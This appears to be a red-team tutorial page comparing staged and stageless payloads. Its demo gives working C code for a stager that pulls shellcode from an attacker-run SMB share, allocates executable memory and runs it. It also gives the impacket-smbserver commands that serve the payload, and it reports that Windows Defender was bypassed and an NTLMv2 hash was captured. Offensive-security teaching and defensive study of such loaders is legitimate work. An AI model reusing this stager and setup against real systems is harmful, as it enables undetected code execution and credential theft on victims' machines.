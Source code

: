 # Staging vs Stageless payloads - Which one is Better?

## Intro

In this documentation, we will explore the differences between staged and stageless payloads. In my recent video, I demonstrated how to use the **Mythic C2 framework** to successfully bypass **Windows Defender** — not through obfuscation or encryption, but purely by leveraging **payload staging over SMB**.

📺 **Watch the full video here**: https://youtu.be/CSt5wcvNjBU

Before diving deeper into this topic, make sure to join my [Discord](https://discord.gg/bgSpdheEgu) where we share experience, knowledge and doing CTFs together.

!!!
If you have further appreciation for my work, don't hesitate to become my [Patreon](https://www.patreon.com/Lsecqt)! This way, you help the Red Teaming Army grow, while getting access to private tools such as the ShadowBurn packer.
!!!

## What is a Stageless Payload?

A **stageless payload** is a single, self-contained binary or script that includes the entire functionality of the final payload at once. When executed, it immediately initiates a connection back to the C2 (Command and Control) server without requiring any additional downloads or secondary stages. 

**Characteristics:**
- Contains both the loader and full payload logic.
- Easier to detect by security tools due to its size and complexity.
- Useful when staging isn't possible (e.g., no or restricted network access).
- Requires more effort to obfuscate and hide in memory.


![[Pasted image 20250723185040.png]]

## What is a Staged Payload?

A **staged payload** breaks the delivery into two or more parts. The initial stage (the stager) is small and lightweight — its only job is to download or retrieve the second stage (the full payload) from a specified location (e.g., an SMB server, HTTP server, etc.).

**Characteristics:**
- Smaller initial binary, making it easier to deliver and evade defenses.
- The second stage can be dynamically fetched or built in memory.
- More modular and flexible for C2 communications.
- Detection can be bypassed by isolating or encrypting the second stage.


![[Pasted image 20250723185054.png]]

## Demo

This section contains the live demonstration and technical walkthrough of the technique. It includes code snippets, configurations, and output logs relevant to staging payloads over SMB using Mythic C2.

During the demo I used Mythic C2 (https://github.com/its-a-feature/Mythic) but the technique is applicable and recommended for any C2 framework.

The code was compiled from my Offensive CPP Repository:

* SMB Staging code: https://github.com/lsecqt/OffensiveCpp/blob/main/Staging%20Techniques/SMB_Stage.c

* Direct Pointer Shellcode Execution Blogpost: https://lsecqt.github.io/Red-Teaming-Army/malware-development/leveraging-the-direct-pointer-a-stealthy-maneuver-in-evasion-tactics/ 

During the video, I created the following code:

```C
#include <windows.h>
#include <stdio.h>

unsigned char buf[2120150] = "";

void readBin(const char* fileName) {
	FILE* file;
	DWORD file_length;

	HANDLE hFile = CreateFileA(fileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hFile == NULL)
	{
		printf("Error opening file: %d\n", GetLastError());
		exit(-99);
	}

	BOOL rez = ReadFile(hFile, &buf, 2120150, NULL, NULL);
	if (rez == FALSE)
	{
		printf("Error reading file: %d\n", GetLastError());
		exit(-98);
	}
}

int main()
{
	LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	readBin("\\\\192.168.0.185\\share\\apollo.bin");
	memcpy(pAddr, buf, sizeof(buf));
	((void(*)())pAddr)();

}
```

Here is important to note the size of `unsigned char buf[2120150]`. The `2120150` is the size of the payload generated from Mythic C2. If you do `ls -l` you can note the size of the file and this is the same size you need here.

Also, the size must be adjusted in here:

```C
BOOL rez = ReadFile(hFile, &buf, 2120150, NULL, NULL);
```

Usually I would go for dynamic memory allocation but the point was to showcase the staging.

---

Next we need to setup the server side. Since we are going to stage over SMB, `impacket-smbserver` can do the job perfect for us.

!!!
I will not go over setting up Mythic C2 as its already explained here: TODO
!!!

To launch the SMB server we can do:

```bash
impacket-smbserver <sharename> <sharepath> -ts -debug -smb2support
```

In our case I am using the CWD (Current Working Directory):

```bash
impacket-smbserver share . -ts -debug -smb2support
```

!!!
`<sharename>` must be the same as the one specific here:
`readBin("\\\\192.168.0.185\\share\\apollo.bin");`
!!!

![[Pasted image 20250723185230.png]]

![[Pasted image 20250723185241.png]]

C2 Callback came immediate while Defender was turned on.

![[Pasted image 20250723185255.png]]

![[Pasted image 20250723185304.png]]

Additionally, we also received the NTLMv2 hash of the user because of the SMB communication.

![[Pasted image 20250723185420.png]]

!!!
This is demonstration only for staging technique. Even though it bypassed Defender do no think it is enough. Malware development is a combination of techniques!
!!!
